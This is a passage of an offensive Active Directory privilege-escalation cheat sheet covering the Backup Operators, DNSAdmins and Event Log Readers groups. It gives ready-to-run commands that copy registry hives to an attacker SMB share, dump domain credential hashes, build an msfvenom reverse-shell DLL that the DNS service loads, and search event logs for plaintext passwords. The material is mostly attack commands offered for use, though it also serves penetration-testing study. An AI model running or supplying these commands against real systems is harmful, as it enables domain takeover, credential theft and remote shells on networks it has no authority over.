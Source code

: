 #### by "From Backup Operator To Domain Admin"

Credit: [https://github.com/mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

**Steps**:
1. cloning the repository and compiling solution with Visual Studio
2. SMB server setup - it is used for receive files:
	- `python3 examples/smbserver.py -smb2support tmp /tmp`
3. upload "BackupOperatorToDA.exe" binary on target
4. remotely backup of SAM, SYSTEM e SECURITY hives and sending to the remote share
	- `.\BackupOperatorToDA.exe -t \\<HOSTNAME DC>.<DOMAIN NAME> -u <USERNAME> -p <PASSWORD> -d <DOMAIN NAME> -o \\<IP ATTACKER>\tmp\`
5. *secrets* dump:
	- `python3 examples/secretsdump.py -sam /tmp/SAM -security /tmp/SECURITY -system /tmp/SYSTEM LOCAL`
6. abuse *computer account DC* hash (section `$MACHINE.ACC` in the output of the command in step 5)
	- `python3 examples/secretsdump.py '<DOMAIN NAME>/<HOSTNAME DC>$'@<IP DC> -hashes <LM HASH $MACHINE.ACC>:<NT HASH $MACHINE.ACC>`

### DNSAdmins

A user member of *DNSAdmins* group or who has write privileges at DNS server object can upload and execute with SYSTEM privilege an arbitrary DLL on server DNS machine. Since, very often, DCs are used as DNS servers, this means that we can execute code in DCs.

The DLL is executed when the DNS service is restarted.

**Steps**:
1. creation DLL *reverse shell*:
	- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<INTERFACE> LPORT=53 -f dll -o reverse.dll`
2. SMB server setup - it is used to serve DLL:
	- `python3 smbserver.py -smb2support "pabloshare" </PATH/TO/OUTPUT/REVERSE.DLL>`
3. download malicious DLL:
	- `dnscmd <HOSTNAME DC> /config /serverlevelplugindll \\<IP ATTACKER>\pabloshare\reverse.dll`
4. listener *netcat* setup:
	- `nc -nvlp 53`
5. reboot DNS service:
	- `sc.exe stop dns`
	- `sc.exe start dns`

***nice to try*** (not tested):
- [AdminDNS-ToSystem.ps1](https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/AdminDNS-ToSystem.ps1)

### EventLogReaders

Members of *Event Log Readers* groups have privilege to read *event log*. These logs may contain sensitive information. 

```shell
#Get members of the group
Get-NetGroupMember -Identity "Event Log Readers" -Recurse
Get-NetLocalGroupMember -ComputerName <pc name> -GroupName "Event Log Readers"

# To find "net [...] /user:blahblah password"
wevtutil qe Security /rd:true /f:text | Select-String "/user"
# Using other users creds
wevtutil qe Security /rd:true /f:text /r:share01 /u:<username> /p:<pwd> | findstr "/user"

# Search using PowerShell
Get-WinEvent -LogName security [-Credential $creds] | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
